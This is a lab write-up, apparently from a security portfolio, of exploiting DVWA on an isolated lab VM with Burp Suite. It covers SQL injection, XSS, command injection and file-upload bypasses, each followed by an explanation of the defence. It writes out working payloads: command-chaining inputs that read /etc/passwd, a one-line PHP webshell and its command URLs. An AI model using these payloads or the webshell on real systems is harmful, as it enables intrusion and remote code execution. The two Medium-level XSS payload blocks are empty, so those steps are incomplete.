









# Phase 7 — Web Application Testing Workflow
## Target: DVWA (Damn Vulnerable Web Application)
### AegisPro CyberShield TX — Lab Assessment Practice

---

## Objective

Execute a structured web application security assessment against DVWA (Damn Vulnerable Web Application) using Burp Suite as the intercepting proxy. This phase covers the OWASP Top 10 vulnerability categories at both Low and Medium security levels, demonstrating how basic security controls can be bypassed with minimal effort and documenting the methodology used in real-world web application assessments.

> **Disclaimer:** All testing performed against DVWA — an intentionally vulnerable web application deployed on an isolated lab VM (10.0.1.101) on the AegisPro CyberShield TX lab network. No unauthorized systems were targeted.

---

## Environment

| Component | Details |
|-----------|---------|
| Attacker | Kali Linux 2025.2 (AegisPro-Kali) — 10.0.1.10 |
| Target | DVWA v1.0.7 — 10.0.1.101 |
| Proxy | Burp Suite Community Edition v2026.3.2 |
| Browser | Firefox with FoxyProxy extension |
| Proxy listener | 127.0.0.1:8080 |
| Security levels tested | Low and Medium |
| Assessment date | May 2026 |

---

## Setup & Configuration

### Burp Suite proxy configuration

1. Burp Suite launched with proxy listener confirmed on `127.0.0.1:8080`
2. Firefox configured via FoxyProxy to route all traffic through `127.0.0.1:8080`
3. Burp CA certificate installed in Firefox to allow HTTPS interception
4. Intercept set to **Off** for general browsing — enabled only when actively capturing requests

### DVWA configuration

1. Logged into DVWA at `http://10.0.1.101/dvwa` with default credentials (`admin / password`)
2. **Setup / Reset DB → Create / Reset Database** — clean database confirmed
3. **DVWA Security → Low** — initial testing performed at Low security
4. Security level bumped to **Medium** for bypass testing after Low testing was complete

---

## Findings Summary

| Vulnerability | Low Security | Medium Security | Bypass Method |
|--------------|-------------|----------------|---------------|
| SQL Injection | ✅ Exploited | ✅ Bypassed | Numeric injection — no quotes required |
| XSS Reflected | ✅ Exploited | ✅ Bypassed | Event handler tags bypass script filter |
| XSS Stored | ✅ Exploited | ✅ Bypassed | Event handler tags bypass script filter |
| Command Injection | ✅ Exploited | ✅ Bypassed | `&&` and `\|` operators bypass `;` filter |
| File Upload | ✅ Exploited | ✅ Bypassed | Burp MIME type header modification |

**Key finding:** All five vulnerability categories were exploitable at both Low and Medium security levels. Medium security added basic filtering controls that were bypassed in every case with minimal effort, demonstrating that superficial input validation provides little real-world protection.

---

## Step 1 — SQL Injection

### Low Security

**Objective:** Demonstrate that user input is passed directly into SQL queries without sanitization, allowing an attacker to manipulate database queries.

**Baseline test:**

User ID `1` submitted — single record returned as expected:

```
ID: 1
First name: admin
Surname: admin
```

**Injection payload:**

```
1' OR '1'='1
```

**Result:** All user records returned from the database — the injected `OR '1'='1` condition made the WHERE clause always evaluate to true, returning every row in the users table.

The request was captured in Burp Suite and sent to Repeater, where the `id` parameter was modified directly and replayed — confirming the injection point and allowing iterative payload testing without resubmitting the form manually.





**Why this matters:** SQL injection allows an attacker to bypass authentication, extract the entire database contents, modify or delete data, and in some configurations execute operating system commands. It remains one of the most critical and common web application vulnerabilities.

### Medium Security

Medium security added server-side input escaping that strips single quotes — the standard `1' OR '1'='1` payload was blocked.

**Bypass — numeric injection:**

```
1 OR 1=1
```

No quotes required — the injection uses numeric comparison operators that aren't filtered. All user records returned again.

**Why the control failed:** Filtering only quote characters while allowing other SQL operators is incomplete sanitization. Parameterized queries (prepared statements) are the only reliable defense against SQL injection — they separate SQL code from user data at the database driver level.

---

## Step 2 — XSS Reflected

### Low Security

**Objective:** Demonstrate that user input is reflected in the page response without sanitization, allowing JavaScript execution in the victim's browser.

**Payload:**

```
<script>alert('XSS')</script>
```

**Result:** JavaScript alert popup executed immediately in the browser, confirming the input was reflected in the HTML response and executed by the browser's JavaScript engine.



**Why this matters:** Reflected XSS allows an attacker to craft a malicious URL that, when clicked by a victim, executes arbitrary JavaScript in their browser. This can be used to steal session cookies, redirect users to phishing pages, capture keystrokes, or perform actions on behalf of the victim.

### Medium Security

Medium security filtered `<script>` tags — the basic payload was blocked.

**Bypass — event handler payload:**

```

```

The filter blocked `<script>` tags but did not filter HTML event handler attributes. The `onerror` event fires when the image source fails to load — which it always does since `src=x` is not a valid image — executing the JavaScript payload.

**Why the control failed:** Blacklisting specific HTML tags while ignoring event handlers is incomplete. Any HTML tag that supports event attributes (`onerror`, `onload`, `onmouseover`, etc.) can be used to execute JavaScript. Proper XSS prevention requires context-aware output encoding that neutralizes all HTML special characters.

---

## Step 3 — XSS Stored

### Low Security

**Objective:** Demonstrate that malicious scripts can be permanently stored in the database and execute for every user who loads the affected page.

**Important distinction from Reflected XSS:** Stored XSS is significantly more dangerous than Reflected XSS. Reflected XSS requires the victim to click a crafted link. Stored XSS executes automatically for every user who visits the affected page — including administrators — without any interaction beyond loading the page.

**Setup:** The Name field has an HTML `maxlength` attribute limiting input to 10 characters. This was increased to 100 via browser developer tools (Inspect Element → edit `maxlength` value) to allow the full payload.

**Payload (submitted in Message field):**

```
<script>alert('XSS')</script>
```

**Result:** JavaScript alert fired immediately on page load and continued to fire on every subsequent page load — confirming the script was stored in the database and executing persistently.



**Why this matters:** A stored XSS payload on a page visited by administrators could be used to hijack admin sessions, create new admin accounts, exfiltrate data, or deface the application — all without the administrator clicking any malicious link.

### Medium Security

Same `<script>` tag filter applied. Bypassed using the same event handler technique:

```

```

Payload stored successfully and fired on every page load at Medium security.

---

## Step 4 — Command Injection

### Low Security

**Objective:** Demonstrate that operating system commands can be injected through a web form input field, providing the attacker with the ability to execute arbitrary commands on the server.

**Baseline test:**

```
127.0.0.1
```

Normal ping output returned — confirming the form passes input to an OS ping command.

**Injection payload:**

```
127.0.0.1; whoami
```

The semicolon terminates the ping command and chains a second OS command. Result:

```
www-data
```

The web server process username was returned, confirming OS command execution through the web form.

**Additional payloads executed:**

```
127.0.0.1; cat /etc/passwd
127.0.0.1; uname -a
127.0.0.1; id
```



**Why this matters:** Command injection gives an attacker the ability to execute any command the web server process can run. From `www-data` access an attacker can read sensitive files, establish reverse shells, pivot to other systems, and escalate privileges if additional misconfigurations exist.

### Medium Security

Medium security filtered the `;` (semicolon) character — the standard chaining operator was blocked.

**Bypass — alternative command operators:**

```
127.0.0.1 && whoami
127.0.0.1 | whoami
```

Both the `&&` (AND operator — executes second command if first succeeds) and `|` (pipe operator — passes output of first command to second) bypassed the filter. `www-data` was returned in both cases.

**Why the control failed:** Blacklisting a single character (`;`) while ignoring other shell operators is incomplete. Input should never be passed to OS commands directly. The correct defense is to avoid shell command construction entirely — use language-native libraries for network functions rather than calling system ping commands.

---

## Step 5 — File Upload

### Low Security

**Objective:** Demonstrate that unrestricted file upload allows an attacker to upload executable code to the server and achieve Remote Code Execution (RCE).

**Step 1 — Create PHP webshell on Kali:**

```bash
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > shell.php
```

This minimal PHP webshell accepts a `cmd` URL parameter and executes it as an OS command, returning the output to the browser.

**Step 2 — Upload the webshell:**

`shell.php` was uploaded via the DVWA file upload form. Low security performed no validation — the upload succeeded immediately:

```
../../hackable/uploads/shell.php successfully uploaded!
```

**Step 3 — Execute commands via the webshell:**

```
http://10.0.1.101/hackable/uploads/shell.php?cmd=whoami
```

Result: `www-data` — confirming Remote Code Execution through the uploaded PHP webshell.

Additional commands executed:

```
http://10.0.1.101/hackable/uploads/shell.php?cmd=id
http://10.0.1.101/hackable/uploads/shell.php?cmd=cat /etc/passwd
http://10.0.1.101/hackable/uploads/shell.php?cmd=uname -a
```





**Why this matters:** Unrestricted file upload combined with a publicly accessible upload directory gives an attacker full Remote Code Execution on the web server. This is a critical severity finding in any real engagement — it represents complete web server compromise.

### Medium Security

Medium security added MIME type validation — the server checked the `Content-Type` header submitted with the upload request. Uploading `shell.php` directly was rejected:

```
Your image was not uploaded. We can only accept JPEG or PNG images.
```

**Bypass — Burp Suite MIME type header modification:**

1. Burp Intercept enabled before submitting the upload
2. `shell.php` selected and Upload clicked
3. Burp intercepted the multipart POST request
4. In the request body, the file's Content-Type header was identified:

```
Content-Type: application/x-php
```

5. Changed to:

```
Content-Type: image/jpeg
```

6. Request forwarded — upload succeeded

**Critical detail:** The file was still named `shell.php` — only the Content-Type header was modified. The server stored the file as `shell.php` in the uploads directory, and the PHP interpreter executed it normally when browsed.

**RCE confirmed at Medium security:**

```
http://10.0.1.101/hackable/uploads/shell.php?cmd=whoami
```

Result: `www-data` — full RCE achieved despite Medium security validation.





**Why the control failed:** Validating only the client-supplied `Content-Type` header is fundamentally flawed. This header is controlled entirely by the attacker — Burp Suite allows modification in seconds. Reliable file upload security requires:

- **Server-side extension whitelist** — only `.jpg`, `.png`, `.gif` accepted regardless of Content-Type
- **Magic byte verification** — inspect actual file contents, not client-supplied headers
- **Upload directory outside web root** — files stored where they cannot be executed by the web server
- **File renaming on upload** — strip the original filename and extension entirely, assign a random name with a safe extension

---

## Lessons Learned

> *Internal observations for professional development — not for client delivery.*

- Medium security in DVWA demonstrates a common real-world pattern: developers add "security" by filtering one specific thing (semicolons, script tags, PHP MIME types) without understanding the full attack surface. Every Medium bypass succeeded because the control was too narrow.
- The file upload MIME type bypass is particularly instructive — it's a finding seen frequently in real web application assessments. Many developers believe Content-Type validation is sufficient because it's enforced "server-side," not realizing the header originates from the client.
- Burp Suite's Repeater and Intercept are the two most valuable features for this type of testing — Intercept catches the request before it reaches the server, Repeater lets you iterate on payloads without resubmitting forms repeatedly.
- FoxyProxy makes toggling the proxy on/off per-site trivial — avoids the frustration of having all browser traffic routed through Burp when you only want DVWA traffic intercepted.
- The `maxlength` HTML attribute bypass (Inspect Element to increase the value) is a client-side control only — it has zero security value since any attacker can modify it or bypass it entirely by sending raw HTTP requests through Burp.

---

## CISSP Domain Alignment

| Domain | Activities in this phase |
|--------|-------------------------|
| Domain 1 — Security & Risk Management | Web application risk identification, finding prioritization |
| Domain 6 — Security Assessment & Testing | Web application vulnerability assessment, proxy-based testing, bypass methodology |
| Domain 7 — Security Operations | Tool operation, traffic analysis, detection awareness |

---

## Screenshots Index

| Filename | Content |
|----------|---------|
| `sqli-all-records.png` | SQL injection returning all database user records |
| `sqli-burp-repeater.png` | Burp Repeater showing injection request and response |
| `xss-reflected-alert.png` | XSS Reflected alert popup |
| `xss-stored-alert.png` | XSS Stored alert popup firing from database |
| `command-injection-whoami.png` | Command injection whoami output — www-data |
| `file-upload-low-success.png` | Successful PHP webshell upload on Low security |
| `file-upload-rce-whoami.png` | Webshell RCE showing whoami in browser |
| `file-upload-burp-bypass.png` | Burp showing Content-Type header modification |
| `file-upload-medium-rce.png` | RCE confirmed at Medium security after bypass |

---

*Previous: [Phase 6 — Vulnerability Assessment](./phase-6-vulnerability-assessment.md)*
*Next: [Phase 8 — Firewall Rule Testing](./phase-8-firewall-rule-testing.md)*

---

*AegisPro CyberShield TX — Phase 7 Lab Documentation — May 2026*
*Lead Assessor: Nicholas Turner, CISSP*
